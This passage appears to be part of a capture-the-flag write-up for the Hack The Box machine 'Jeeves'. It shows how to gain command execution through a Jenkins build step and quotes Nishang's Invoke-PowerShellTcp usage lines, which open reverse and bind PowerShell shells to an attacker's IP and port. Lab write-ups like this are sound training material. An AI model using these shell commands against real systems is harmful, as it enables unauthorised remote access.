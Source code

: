 Select `Create New Jobs` from the dashboard.
![0d405945767dd2c6982012e51cf35e0b.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jeeves/ffe10e094abf412a96569ecea74f86aa.png)
Create a Freestyle Project

I configure, we can see **Build -> Add Build Step -> Execute Windows Batch Command**
![5875c8c6c6e766848eed939383199541.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jeeves/161eb4eb0be54960949561d89e274293.png)
Since we can schedule tasks, And we have command execution here.
Here I gonna use [Nishang](https://github.com/samratashok/nishang) to get reverse shell.

> Nishang is a framework of scripts and payloads that enables using PowerShell for offensive security. By using this we can get the shell.

There is a lot of Shell I choose `nishang/Shells/Invoke-PowerShellTcp.ps1` and copied that to my directory.

If we look at the Shell it gives us some of the examples.

```bash
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on
the given IP and port.
.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444
Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port.
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
```
